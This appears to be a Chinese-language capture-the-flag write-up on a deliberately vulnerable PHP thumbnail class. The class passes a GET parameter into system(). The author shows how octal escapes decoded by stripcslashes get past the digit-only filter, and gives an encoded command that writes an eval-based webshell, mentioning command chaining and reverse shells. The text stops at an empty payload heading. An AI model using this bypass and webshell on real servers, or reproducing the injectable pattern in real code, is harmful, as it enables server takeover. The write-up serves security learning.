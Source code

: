 > stripcslashes

```php
class ImageViewer {
    private $file;

    function __construct($file) {
        $this->file = "images/$file";
        $this->createThumbnail();
    }

    function createThumbnail() {
        $e = stripcslashes(
            preg_replace(
                '/[^0-9\\\]/',
                '',
                isset($_GET['size']) ? $_GET['size'] : '25'
            )
        );
        system("/usr/bin/convert $this->file --resize $e ./thumbs/$this->file");
    }

    function __toString() {
        return "<a href=$this->file> <img src=./thumbs/$this->file></a>";
    }
}

echo (new ImageViewer("image.png"));
```

一个生成缩略图的类，`system()` 或许可以命令注入，`__toString()` 可能有 `xss`。

可惜 `file` 不可控，那我们仔细看看 `size` ，这有个特别的函数

```php
stripcslashes ( string $str ) : string
// 返回反转义后的字符串。可识别类似 C 语言的 \n，\r，... 八进制以及十六进制的描述。
```

`/[^0-9\\\]/` 只能有数字、反斜杠和右中括号，上面那函数能识别十六进制，

但十六进制中包含字母，所以我们可以把字符串转成八进制试试。

```php
var_dump(stripcslashes('\145\143\150\157\40\47\74\77\160\150\160\40\145\166\141\154\50\44\137\107\105\124\133\61\135\51\73\77\76\47\40\76\40\163\150\145\154\154\56\160\150\160'));
// string(42) "echo '<?php eval($_GET[1]);?>' > shell.php"
// 字符串直接转八进制不太好转，可以先转成URL，然后转成十进制，再转八进制
```

另外，`system()` 里可以执行多条命令，用 `;` 分隔一下即可。

尝试写一个 `webshell` ，也可以直接反弹一个 `shell`。

`stripcslashes()` 这难道不是多次一举，限制只能传入数字不就好了？为了兼容不同进制吗？

### payload

